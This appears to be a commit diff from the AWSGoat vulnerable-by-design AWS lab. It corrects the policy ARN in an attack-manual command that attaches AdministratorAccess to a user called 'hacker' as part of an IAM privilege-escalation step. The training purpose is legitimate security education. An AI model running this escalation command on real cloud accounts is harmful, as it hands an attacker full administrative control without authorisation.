

Before and after one commit to ine-labs/AWSGoat, a Markdown page: attack-manuals/module-1/07-IAM Privilege Escalation.md, the part around the change. Drawn GitHub-style.

Commit message:
Fix AdministratorAccess ARN
https://docs.aws.amazon.com/aws-managed-policy/latest/reference/AdministratorAccess.html

````diff
--- a/attack-manuals/module-1/07-IAM Privilege Escalation.md
+++ b/attack-manuals/module-1/07-IAM Privilege Escalation.md
@@ -252,7 +252,7 @@ Run-
 Command:
 
 ```bash
-aws iam attach-user-policy --user-name hacker --policy-arn arn:aws:iam:policy/AdministratorAccess
+aws iam attach-user-policy --user-name hacker --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
 ```
 
 Let's create a login profile for "hacker" user with the help of the following command.
````
